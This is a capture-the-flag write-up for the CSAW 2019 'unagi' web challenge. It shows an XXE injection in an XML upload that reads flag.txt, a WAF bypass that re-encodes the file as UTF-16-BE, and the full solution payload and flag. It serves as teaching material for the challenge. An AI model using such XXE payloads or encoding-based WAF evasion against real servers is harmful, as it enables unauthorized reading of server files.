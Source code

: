 # unagi (200 pts)

> come get me
> http://web.chal.csaw.io:1003

Upon visiting the web page, we are presented with a navbar containing 
> Home | User | Upload | About

We are able to learn that the webserver is running Apache + PHP through basic observation. (Links contain .php, Server included in response headers)

In `About`, it tells us the flag is in flag.txt. Awesome.

For `User`, the contents are

```
Name: Alice
Email: alice@fakesite.com
Group: CSAW2019
Intro: Alice is cool

Name: Bob
Email: bob@fakesite.com
Group: CSAW2019
Intro: Bob is cool too
```


For `Upload`, we are given a _`sample.xml`_ and an option to upload our own xml. The contents of _`sample.xml`_ are as follows:

```xml
<users>
    <user>
        <username>alice</username>
        <password>passwd1</password>
        <name>Alice</name>
        <email>alice@fakesite.com</email>
        <group>CSAW2019</group>
    </user>
    <user>
        <username>bob</username>
        <password>passwd2</password>
        <name> Bob</name>
        <email>bob@fakesite.com</email>
        <group>CSAW2019</group>
    </user>
</users>
```

Interestingly, there is no `<intro></intro>` element as shown in the `User` page. When we copy the sample verbatim and upload it, we get an output of
```
Name: Alice
Email: alice@fakesite.com
Group: CSAW2019

Name: Bob
Email: bob@fakesite.com
Group: CSAW2019
```

So lets try a basic XXE injection with PHP wrapper using `<!DOCTYPE user [<!ENTITY flag SYSTEM "file:///flag.txt">]>` . This time we get a message saying `WAF blocked file upload` or something amongst those lines.

Upon googling around, I came upon [this article](https://lab.wallarm.com/xxe-that-can-bypass-waf-protection-98f679452ce0). According to method 3, some WAF may not be able to parse different encodings. So we try to save our file as `UTF-16-BE` in any code editor (VSCode in my case) and upload it. 

The upload works, and the injection succeeds however we can only see 20 `A`'s. Apparently the output truncated. After wasting huge amount of time, I remembered about the `<intro></intro>` element. Apparently it is not truncated so we use it to get our flag.

Solution (saved in `UTF-16-BE` encoding):
```xml
<!DOCTYPE user [ <!ENTITY flag SYSTEM "file:///flag.txt">]>
<users>
    <user>
        <name>name</name>
        <email>email</email>
        <group>group</group>
        <intro>&flag;</intro>
    </user>
</users>

<!-- flag{n0w_i'm_s@d_cuz_y0u_g3t_th3_fl4g_but_c0ngr4ts} -->
```
